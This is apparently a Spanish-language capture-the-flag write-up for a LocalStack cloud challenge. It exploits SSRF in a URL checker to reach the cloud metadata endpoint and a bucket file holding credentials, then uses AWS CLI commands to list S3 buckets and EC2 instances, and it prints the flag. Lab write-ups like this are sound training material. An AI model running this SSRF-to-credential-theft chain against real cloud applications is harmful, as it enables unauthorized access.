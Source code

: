 #### **Paso 1**
- Accede a la aplicación en `http://34.51.13.20:8080/`.
- Observa que hay un formulario que permite ingresar una URL y verificar su contenido.
- Este ultimo es vulnerable a Server-Side Request Forgery (SSRF)
- En el URL checker, ponermos http://169.254.169.254/latest/meta-data/ lo que comunmente es el vector de entrada de esta vuln.
- Al acceder nos da la siguiente pista
  
  ![image](https://github.com/user-attachments/assets/07ee8a90-8731-41e3-9f2c-895f4c3673f4)



#### **Paso 2**
- Vemos que nos dice que hay un bucket, en "Bucket": "bucket-ahau-yucatan/users.txt
- Este se aloja en el puerto 4566, en especifico http://34.51.13.20:4566/bucket-ahau-yucatan/users.txt
- al acceder vemos estas credenciales

![image](https://github.com/user-attachments/assets/bf965be2-8bca-451a-a51a-0b0b6c6d34fa)


#### **Paso 3**

### **2. Explotación**

Una vez confirmada la vulnerabilidad, el pentester explota el SSRF para obtener credenciales de AWS.

#### **Paso 1: Obtener credenciales de AWS**
- Ingresa la URL del servicio de metadata de AWS en el formulario:
  ```
  http://34.51.13.20:4566/bucket-ahau-yucatan/users.txt
  ```
- La aplicación devuelve las credenciales en formato JSON:
  ```json
  {
      "AccessKeyId": "test",
      "SecretAccessKey": "test",
      "Token": "test",
      "Region": "us-east-1"
  }
  ```

#### **Paso 2: Configurar las credenciales**
- Usa las credenciales obtenidas para configurar el entorno de AWS CLI:
  ```bash
  export AWS_ACCESS_KEY_ID=test
  export AWS_SECRET_ACCESS_KEY=test
  export AWS_SESSION_TOKEN=test
  export AWS_DEFAULT_REGION=us-east-1
  ```

---

### **3. Post-Explotación**

Con las credenciales en mano puedes interactúa con los servicios de AWS (LocalStack) para encontrar la bandera.

#### **Paso 1: Listar los buckets de S3**
- Usa el siguiente comando para listar los buckets en S3:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls
  ```
- Observa que hay un bucket llamado `secret-bucket-challenge`.

#### **Paso 2: Listar los archivos en el bucket**
- Usa el siguiente comando para listar los archivos en el bucket:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls s3://secret-bucket-challenge/
  ```
- Observa que hay un archivo llamado `flag.txt`.

### **Paso 3: Listar las instancias EC2**  

1. Ver las instancias EC2 ejecutando el siguiente comando:  

   ```bash
   aws --endpoint-url=http://34.51.13.20:4566 ec2 describe-instances \
     --query "Reservations[*].Instances[*].Tags[?Key=='Name'].Value" \
     --output text
   ```

2. La bandera es el nombre de la instancia encontrada:  

   ```
   FEMEC_Pentester_Cloud_AHAU
   ```

---


By M0r0k0
